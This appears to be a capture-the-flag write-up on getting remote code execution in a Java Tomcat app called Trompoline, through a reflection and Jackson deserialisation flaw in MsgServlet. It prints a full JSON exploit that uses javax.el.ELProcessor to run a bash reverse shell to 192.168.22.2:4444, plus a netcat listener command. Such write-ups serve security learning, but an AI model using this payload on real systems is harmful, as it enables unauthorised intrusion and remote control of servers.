# Finals Challenge 3

The third challenge is to game remote code execution (RCE) on the server through exploiting a code vulnerable within the web application, in order to extract the file `/opt/tomcat/flag`.

### Trompoline Page
The challenge start with a webpage at `/v1/Trompoline`. This seems to be a static page with no functionality. Even the buttons have no backend actions. 



Thus I shifted my attention to the source code, that was found in the previous challenge.

### Source Code
Extracting the `Trompoline.war` file, I get a java web application source code structure.






### Decompile Java Class
Using Intellij, I am able to decompile the java class files. This allows me to read the java code in a more readable format.

The application's code has 3 main packages: model, servlet and util.



#### MainServlet
Within the servlet package, there is a `MainServlet` class. This handles a get request on endpoint `/MainServlet`. It does not have much functionality, except for responding with Hello World!




#### MsgServlet
There is another class `MsgServlet` which handles a post request on endpoint `/MsgServlet`. This method in more interesting as there seems to be some data processing going on.



By analysing the code, I can understand the payload structure required. It is a JSON object with 2 keys: `type` and `content`. 

##### Type

Next java reflection technique is used to dynamically get a class within the model package. The class name is based on the `type` key in the JSON payload. I also know that the class needs to be `BaseReq` or extend from `BaseReq`. To determine the correct `type` value, I need to look at the `model` package. 



Within the models package, there is only 2 classes that fit the criteria: `BaseReq` and `TopoReqMsg`. 





Since `BaseReq` does not have any functionality, I can assume that the correct `type` value is `TopoReqMsg`.

##### Content
The `content` key is then used as deserialization data for the class specficied by the `type` key. This is done using the `Jackson` library. After the object is create, a method `call_dynamic` is invoked.

To understand what the `content` key should contain, I need to look at the `TopoReqMsg` class fields.



There are 4 fields in the `TopoReqMsg` class: `data`, `className`, `methodName` and `isStatic`. Since the deserialize data is also a json, the general outline of the payload will be something like this:

```json
{
  "type": "TopoReqMsg",
  "content": "{\"isStatic\": \"\", \"className\": \"\", \"methodName\": \"\", \"data\": \"\"}"
}
```

##### call_dynamic
I also need to understand what the `call_dynamic` method does, and how the field are used within the method. 



In summary, the `call_dynamic` method uses java reflection to dynamically invoke a method. The method is specified by the `className` and `methodName` fields. The `data` field is used as the method's parameter. The `isStatic` field is used to determine if the method is static or not.

There are some criteria that method must meet:
1. The method's class must have a empty public constructor unless the method is static.
2. The method must be public.
3. The method must have a single parameter of type `String`.

##### Finding appropriate RCE method
Since the challenge description states to get the file `/opt/tomcat/flag`, I need to find a method that can run shell commands for RCE.

Upon some research, I found that the `Runtime` class has a method `exec` that can run shell commands, and the reverse shell payload can be generated with website such as https://www.revshells.com. Thus the raw java code will be:

```java
Runtime.getRuntime().exec("bash -c $@|bash 0 echo bash -i >& /dev/tcp/192.168.22.2/4444 0>&1");
```

However, I realised it is not possible to use the `Runtime` class as it does not have a empty public constructor, the `getRuntime` method is required. Thus I need to find an alternative way.

Another potential way was find a single method that can run `String` as java code. This was when I notice there are other .jar dependencies in the `WEB-INF/lib` folder. I extracted them to view the classes.



After some research, I found that `javax` dependency has a `ELProcessor` class, which contains a single method `eval`. This method can run `String` as java code. The `ELProcessor` class also has a empty public constructor, thus it can be used.

##### Final Payload
With the above information, I can construct the final payload. The `type` value will be `TopoReqMsg`. The `content` value will be a JSON object with the following fields:
- `isStatic`: `false`
- `className`: `javax.el.ELProcessor`
- `methodName`: `eval`
- `data`: `Runtime.getRuntime().exec("bash -c $@|bash 0 echo bash -i >& /dev/tcp/192.168.22.2/4444 0>&1")`

Below is the final JSON with proper string escaping and formatting.

```json
{
  "type": "TopoReqMsg",
  "content": "{\"isStatic\": \"false\", \"className\": \"javax.el.ELProcessor\", \"methodName\": \"eval\", \"data\": \"Runtime.getRuntime().exec(\\\"bash -c $@|bash 0 echo bash -i >& /dev/tcp/192.168.22.2/4444 0>&1\\\")\"}"
}
```

##### Exploit
Lastly, is just to setup a netcat listener and send the payload to the server.

Start netcat listener on your host (attacker) machine.
```bash
nc -lvnp 4444
```



Send the payload to the server.



The netcat listener will receive a connection from the server, and a shell will be spawned.


